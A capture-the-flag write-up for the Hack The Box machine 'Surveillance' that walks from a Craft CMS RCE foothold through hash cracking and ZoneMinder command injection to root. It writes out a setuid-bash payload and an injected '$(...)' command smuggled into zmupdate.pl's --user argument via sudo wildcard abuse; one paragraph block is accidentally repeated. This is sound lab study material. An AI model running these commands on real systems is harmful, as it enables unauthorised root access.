 ```yaml
---
slug: /write-up/htb/machines/medium/surveillance
pagination_next: null
pagination_prev: null
---
```


## Enumeration


```bash
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance 
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ubuntu jammy running nginx 1.18.0

Browsing the web, we can see the following link: https://github.com/craftcms/cms/tree/4.4.14. Looks like it's made with `craftcms` and we have the precise version.

## Foothold

Looks like it's vulnerable to a RCE vulnerability (fixed by 4.4.15): 

- https://putyourlightson.com/articles/critical-craft-cms-security-vulnerability
- https://blog.calif.io/p/craftcms-rce
- https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

With latest POC, we got foothoold, now we can run a reverse shell, improve it and start investigating.

Right now we can acess as `wwww-data`.

## Lateral movement

In home we found two users:

```bash
www-data@surveillance:~/html/craft/web/cpresources$ ls /home
matthew  zoneminder
```

There are many things listening in localhost:
```bash
www-data@surveillance:~/html/craft$ netstat -na |grep "LISTEN"
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN  
```

Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`: Looks like there's a `ZoneMinder` server running in port 8080 but only listening in localhost. Looks really interesting for later.

I managed to exfiltrate the contents of /var/www and found the configuration to connect to mysql database which contains an entry for admin user:

```bash
MariaDB [craftdb]> select username,fullName,password from users;
+----------+-----------+--------------------------------------------------------------+
| username | fullName  | password                                                     |
+----------+-----------+--------------------------------------------------------------+
| admin    | Matthew B | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+----------+-----------+--------------------------------------------------------------+
```

If we manage to crack the hash, we might get the password of matthew user. Checking the contents, of the web there's a backup of the database which contains a different hash, it might be worth trying to crack it.

Crack it, got the user password for `matthew`. Now we can connect with SSH and read the user flag.

## Privilege escalation

The user cannot run sudo. Now that we have SSH access, we can do port forwarding to access the instance running in localhost:

```bash
ssh -L 8080:localhost:8080 matthew@surveillance.htb
```

We can have access to the ZoneMinder thing by using the user admin and the same password as `matthew`.

Now we can see the version: 
    v1.36.32

Looks like it's vulnerable to https://pentest-tools.com/vulnerabilities-exploits/zoneminder-snapshots-command-injection_22437 because it mentions prior versions to 1.36.33 and 1.37.33

Since the process does not appear for the user `matthew`, it might be running for another user or for `root`. Either way, we can try to exploit the RCE vulnerability and continue from there.

The POC worked perfectly and we got access to user `zoneminder`. Now let's improve the shell and continue.

Checking what the user can do, looks like it can execute some script as root without specifying a password:

```bash
zoneminder@surveillance:~$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
zoneminder@surveillance:~$ 
```

This means any user can run any binary called zm*.pl in the /usr/bin/ directory under the root context, no password will be prompted. Morevoer, any option can be passed to the binary since it uses a wildcard in the sudoers file. This is a wide open configuration which can be abused using wildcard injection. Prepare a shell exploit.

```bash
echo 'cp /bin/bash /var/tmp/bash;chmod 4755 /var/tmp/bash' > /var/tmp/exploit.sh
chmod +x /var/tmp/exploit.sh
```

Now just run any zm* binary and inject a command calling the exploit, it will be executed under the root context. For example, using zmupdate with the --version option will force the tool to upgrade the database, and it allows us to inject a command to execute the exploit:

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/var/tmp/exploit.sh)'
```

Now execute the copied bash with `-p` and we got root access.